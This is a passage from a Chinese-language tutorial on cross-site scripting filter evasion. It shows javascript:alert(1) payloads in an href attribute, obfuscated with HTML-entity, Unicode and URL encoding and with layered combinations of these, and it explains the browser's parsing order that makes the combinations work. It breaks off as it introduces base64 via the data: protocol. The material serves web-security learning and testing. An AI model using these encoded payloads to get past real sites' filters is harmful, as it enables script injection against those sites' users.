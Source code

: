 ```
<a href="可控点">test</a>
```

**Payload**

```
<a href="javascript:alert(1)">test</a>
```

**html 编码**

```
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">test</a>
```

**Unicode 编码**

```
<a href="javascript:\u0061\u006c\u0065\u0072\u0074(1)">test</a>
```

**注：Unicode 编码不能对括号使用**

**url 编码**

```
<a href="javascript:%61%6c%65%72%74%28%31%29">test</a>
```

**由于浏览器对 xss 代码的解析过程是：html解析 —— url解析 —— js解析，所以可以编码方式进行组合绕过。**

```
1. 原代码
<a href="javascript:alert(1)">test</a>
2. 对alert进行JS编码（unicode编码）
<a href="javascript:\u0061\u006c\u0065\u0072\u0074(1)">test</a>
3. 对href标签中的\u0061\u006c\u0065\u0072\u0074进行URL编码
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)">test</a>
4. 对href标签中的javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)进行HTML编码：
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x31;&#x29;">test</a>
```

**注：href、src等加载url的属性可以使用三种混合编码，on事件可以使用html实体编码和js编码混合，但url编码在on事件中不会解析。**

##### 0x05. base64 编码

**base64 编码通常需要使用到 data 伪协议。**

**data 协议使用方法：`data:资源类型;编码,内容`**
